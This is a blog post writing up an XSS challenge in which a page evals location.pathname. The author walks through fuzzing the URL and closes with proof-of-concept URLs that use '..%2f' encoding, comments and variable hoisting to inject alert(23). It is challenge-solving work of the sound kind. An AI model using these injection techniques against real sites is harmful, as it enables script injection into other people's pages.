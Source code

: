 ```yaml
---
layout: post
title:  alert(23) to win - eval(location.pathname)
tags: [xss]
---
```


while surfing the internet for some sec news, a xss challenge came across.
challenge address `https://renwax23.github.io/X/chal/oct22/`

It's on github. So there is no backend, all the codes are in the front. Let's see it.

```javascript

if(/\/chal\/oct22\//.test(location.pathname.substr(0,15))){

eval(location.pathname)

}
```
The logic is simple. After checking the location.pathname, pathname will be evaled. So this is the sink.

## round one
https://renwax23.github.io/X/chal/oct22/ 
Check the console. We see a syntax error.
`
Uncaught SyntaxError: Invalid regular expression flags
    at (index):23
`
So i think that the key is regex. After reading some docs about regex, I couldn't get an answer.

I tried some random stuff.`-` `&` `?` `\` , and get 404.

round one failed.

## round two
So I need to get code 200 and insert some code in the url.
But how? Some are urlencoded. Some will return code 404. I fuzzed the url to see what I can insert while it still returns 200. No luck.
https://renwax23.github.io/X/chal/oct22//
I add a `/` in the url. And it returned 200. So I can insert `/` as I need.
https://renwax23.github.io//X/chal/oct22/
I add a `/` in the front. Checking the console, there's no syntax error. I thought that it's the right way. So I need to get some line break. Because `//` comment the code. Trying '%0d%0a' and `\u2028` (from prompt(1) to win), they are urlencoded.

I also tried `a/../`. But chrome will short it. 
Trying some urlencode. And `https://renwax23.github.io//X/chal/oct22/a/..%2f` returns code 200.
Eureka!
Now I can inject code into pathname and I still get code 200.

## round three
But there's still no alert.
https://renwax23.github.io/X//chal/oct22/a/..%2f
So I moved `/`. New error.
```
Uncaught SyntaxError: Unexpected token '.'
```
Not regex syntax error.

So now I need to get the syntax right. After some trying, I get a new error message.
https://renwax23.github.io/X//chal/oct22/a;//..%2f
```
Uncaught ReferenceError: chal is not defined
```
So we need to need to define `chal`. And in javascript, you can use before define. So we can use `var` to define. I tried `var chal`. Space will be %20. Syntax error.
We can use comment `/**/` to seperate.

In the end, we get the alert.
poc:
https://renwax23.github.io/X//chal/oct22/-alert(23);var/*/..%2f/..%2f/*/chal=1;var/*/..%2f/..%2f/..%2f/*/oct22=2//..%2f/..%2f

Sereval hours later. I tried again. And get a less one.
https://renwax23.github.io/X//chal/oct22/alert(23);var/*/..%2f../*/chal,oct22//..%2f..

Really interesting challenge. Thanks to the author. 

